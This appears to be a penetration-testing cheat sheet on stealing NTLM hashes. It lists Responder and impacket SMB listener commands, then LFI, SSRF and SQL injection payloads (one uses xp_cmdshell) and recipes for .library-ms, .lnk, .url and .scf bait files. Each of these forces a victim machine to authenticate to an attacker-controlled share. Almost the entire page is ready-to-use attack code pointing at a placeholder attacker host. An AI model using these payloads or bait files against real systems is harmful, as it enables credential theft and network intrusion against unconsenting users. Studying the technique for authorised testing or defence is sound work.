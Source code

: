 ```yaml
---
icon: ear
---
```


# Stealing NTLM hashes

## Listener

```bash
sudo responder -I <interface>
```

```
impacket-smbserver share /dev/null -smb2support
```

## Possible Attacks

### Via web vulnerability

If you discover a web vulnerability (such as LFI, SQLI, XXE, SSRF, SSTI) that allows you to include remote files, you can exploit it to steal the NTLM hash of the user running the process. For example:

<pre class="language-powershell"><code class="lang-powershell"># LFI
?page=\\&#x3C;attaker>\shared

# SSRF
?url=file:////&#x3C;attaker>/shared

# SQL Injection
?id=1' union select null,load_file('\\\\&#x3C;attaker>\\shared'),null-- -
?id=1' union select null,(select x from OpenRowset(BULK '\\&#x3C;attaker>\shared',SINGLE_CLOB) R(x)),null-- -
<strong>?id=1' union select null,(EXEC xp_cmdshell 'dir \\&#x3C;attaker>\shared'),null-- -
</strong></code></pre>

### Via .library-ms file

```sh
cat > \!shared.library-ms <<EOF
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\\\<attacker>\\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
EOF
```

### Via .lnk file

```powershell
pylnk3 c '\\<attacker>\shared' \!shared.lnk -i '\\<attacker>\shared\icon.ico'
```

### Via .url file

```sh
cat > \!shared.url <<EOF
[InternetShortcut]
URL=\\\\<attacker>\\shared
IconIndex=1
IconFile=\\\\<attacker>\\shared\\icon.ico
EOF
```

### Via .scf file

```sh
cat > \!shared.scf <<EOF
[Shell]
Command=2
IconFile=\\\\<attacker>\\shared\\icon.ico
[Taskbar]
Command=ToggleDesktop
EOF
```

## References

[https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)
